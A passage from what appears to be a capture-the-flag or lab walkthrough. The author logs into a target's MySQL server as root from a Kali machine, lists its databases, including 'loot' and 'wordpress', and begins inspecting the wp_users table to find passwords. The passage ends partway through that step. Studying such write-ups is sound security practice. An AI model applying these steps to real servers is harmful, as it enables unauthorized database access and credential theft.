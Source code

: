 Perfect! We got the root login to the MySQL Server! Let's go ahead and connect to it!

```console
root@kali:~# mysql -u root -p -h 192.168.1.13
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 98
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

From here, I went ahead and tried to find the passwords in WordPress.

```sql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.07 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.00 sec)

mysql> describe wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
```